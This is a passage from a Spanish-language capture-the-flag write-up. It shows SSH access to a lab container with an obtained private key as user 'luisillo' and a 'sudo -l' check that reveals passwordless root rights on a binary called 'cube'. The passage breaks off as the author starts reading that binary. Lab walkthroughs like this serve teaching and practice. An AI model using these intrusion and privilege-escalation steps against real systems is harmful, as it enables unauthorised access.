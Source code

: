 ```shell
chmod 600 id_rsa
```

### SSH

```shell
ssh -i id_rsa luisillo@<IP>
```

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:YIkHKXH1exQCs/omWp6MtzBankdZUl1a61b/33eg5Ww.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.11.2-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri Aug 30 03:00:21 2024 from 172.17.0.1
$ whoami
luisillo
```

Cuando ejecutemos eso, estaremos dentro como dicho usuario sin necesidad de introducir una contraseña.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for luisillo on c7977b0f421c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on c7977b0f421c:
    (ALL) NOPASSWD: /bin/cube
```

Vemos que podemos ejecutar el binario `cube` como el usuario `root`, por lo que haremos lo siguiente:

Si leemos el binario que se podra leer de forma facil:

```shell
cat /usr/bin/cube
```
